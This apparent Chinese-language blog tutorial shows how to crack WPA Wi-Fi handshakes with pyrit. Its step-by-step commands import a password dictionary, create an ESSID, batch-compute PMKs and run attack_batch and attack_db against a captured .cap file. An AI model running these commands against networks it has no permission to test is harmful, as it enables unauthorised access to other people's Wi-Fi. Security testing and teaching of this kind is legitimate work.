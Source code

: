 # WPA渗透-pyrit：batch-table加速attack_db模块加速_“attack_db”模块加速

## 1.渗透WIFI

1.导入密码字典

```
pyrit -i 字典文件 import_passwords
-i：输入的文件名
import_passwords：从类文件源导入密码。

pyrit -i /root/wifi/pwd.txt import_passwords
```

2.导入essid，破解完成记得删除

```
pyrit -e wifi名称 create_essid
-e：按ESSID过滤AccessPoint
create_essid：创建一个新的ESSID
delete_essid：从数据库中删除一个ESSID

pyrit -e cisco-1809 create_essid
```

![image.png](https://image.201068.xyz/assets/290bdf72849448e69d448042809d99f1.png)

3.批处理数据库,速度比较慢，耐心等待

```
pyrit batch 
batch：批处理数据库
```

![image.png](https://image.201068.xyz/assets/a3a6aeea675d496a9c14dc1a68b3cb3c.png)

4.batch-table(批处理数据库)加速渗透wifi

```
pyrit -e WiFi名称 -r cap包 attack_batch
attack_batch：攻击从数据库的PMKs/密码握手
-r：pcap格式的数据包捕获源

pyrit -e cisco-1809 -r wpa-1-01.cap attack_batch
```

![image.png](https://image.201068.xyz/assets/d7deff080cfa46d3a7b77106d1949108.png)

5.attack_db 加速渗透wifi

```
pyrit -e WiFi名称 -r cap包 attack_db
attack_db：攻击与数据库中的PMK握手
-r：pcap格式的数据包捕获源

pyrit -e cisco-1809 -r wpa-1-01.cap attack_db
```

![image.png](https://image.201068.xyz/assets/7327ae375337438abb00e7aa60142233.png)

6.batch-table和hash-table对比

相同点：生成起来都很慢

不同点：hash-table可以分享给别人用，batch-table只能自己用

弊端：需要生成batch-table 字典越大生成越慢

优势：生成batch-table后，渗透速度指数级提升